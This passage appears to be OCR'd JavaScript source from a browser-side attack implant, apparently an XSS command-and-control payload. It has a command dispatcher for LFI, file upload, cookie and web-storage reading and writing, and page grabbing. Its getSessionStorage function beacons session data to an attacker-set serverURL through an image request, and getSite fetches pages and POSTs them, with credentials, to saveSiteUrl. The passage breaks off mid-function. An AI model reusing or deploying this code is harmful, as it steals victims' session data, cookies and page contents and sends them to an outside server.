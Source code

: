 ```

function getSessionStorage() { 
    var data = window.sessionStorage.getItem(key);
    var i=new Image;
    i.src= serverURL + "/saveSessionStorage?a=" + data;
}

function setSessionStorage() { 
    sessionStorage.setItem(key, value)
}

async function getSite() {
    site = atob(site)
    const response = await fetch(site,{
        method: "GET"
    })
    let text = await response.text()

    downloadedSiteBase64URLEncoded = encodeURIComponent(btoa(text))
    postdata = "site=" + downloadedSiteBase64URLEncoded + "&" + "name=test.js"
    xhr = new XMLHttpRequest();
    xhr.open('POST', saveSiteUrl);
    xhr.withCredentials = "true";
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send(postdata);
}

async function executeCommand() {
    if (command == "lfi") {
        await runLFI()
    }

    if (command == "fileUpload") {
        fileUpload()
    }

    if (command == "getCookie") {
        getCookie()
    }

    if (command == "setCookie") {
        setCookie()
    }
    
    if (command == "getLocalStorage") {
        getLocalStorage()
    }

    if (command == "setLocalStorage") {
        setLocalStorage()
    }

    if (command == "getSessionStorage") {
        getSessionStorage()
    }

    if (command == "setSessionStorage") {
        setSessionStorage()
    }

    if (command == "getSite") {
        await getSite()
    }
```
